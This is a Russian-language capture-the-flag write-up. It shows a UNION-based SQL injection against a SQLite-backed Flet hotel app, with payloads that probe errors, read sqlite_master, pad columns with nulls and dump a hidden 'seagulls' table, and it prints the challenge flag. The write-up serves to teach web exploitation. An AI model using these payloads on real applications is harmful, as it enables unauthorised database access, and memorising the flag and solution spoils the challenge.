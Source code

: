 # Union of crabs and seagulls

## Исследование
Видим перед собой сайт на `flet` (флаттер под питон). Если повбивать разные данные - нам будут выводится разные крабы, которые по истории таска являются постояльцами отеля. Тут можно предположить, что на бэке есть какая-то СУБД, которая отвечает за хранение информации о крабах.


## Эксплуатация

TL;DR; Нужно сделать UNION инъекцию. Название таска является бесплатным хинтом к тому же. 

Этапы эксплуатации:

1) Попытаться вызвать ошибку, чтобы понять формат вулны - Blind Injection или нет.
```
 > INPUT: ' UNION
 < OUTPUT: near "%": Syntax error
```
1) Из этого сообщения мы можем понять, что:
   - Используется LIKE синтаксис
   - Формат ошибки соответствует ошибками sqlite

2) Зная это, пытаемся вытянуть какую-нибудь информацию о таблицах - потому что по-умолчанию у нас и так выводятся все крабы из БД. Добавляем комментарий `--` (комментарий формата sqlite), чтобы закомментировать в запросе правую часть LIKE.
```
 > INPUT: ' UNION Select name, sql FROM sqlite_master --
 < OUTPUT: SELECTs to the left and right of UNION do not have the same number of result columns
```
1) Это означает, что нам нужно подобрать количество столбов в неизвестном нам запросе в приложении. Одна из простых техник - добавлять null-ы, пока у нас не пропадут ошибки из пункта 3. Когда подберем нужное количество столбцов - нам выпадет ошибка о валидации - и из нее мы узнаем что у нас 5 полей в запросе.
```
 > INPUT: ' UNION Select null, null, null, name, sql FROM sqlite_master --
 < OUTPUT: Ошибки валидации - попробуйте этот запрос сами, там длинный текст.
```
1) Подбираем названия столбцов под типы полей. Это может занять время, но в итоге вы получите что-то вроде:
```
 > INPUT: ' UNION Select "a",name, sql, "a", True FROM sqlite_master --
 < OUTPUT: В самом низу странички будут два краба, с названиями таблиц в графе "Номер" и схемой в "Доп инфо"
```
1) В других тасках тут может быть этап изучения схемы нужной нам таблицы. Но в этом таске представление унифицировано, т.е. у нас две одинаковые таблицы с разным названием и разным содержимым.

2) Зная название таблички с чайками - `seagulls`, делаем UNION запрос в нее. Получаем флаг в доп.инфо чайки-босса.
```
 > INPUT: ' UNION Select * FROM seagulls --
 < OUTPUT: В вывод добавится 9 чаек, одна из которых The Boss с флагом в доп. инфо.
```

## Флаг

`crab{UN10N1z3d_s34gulls_*}`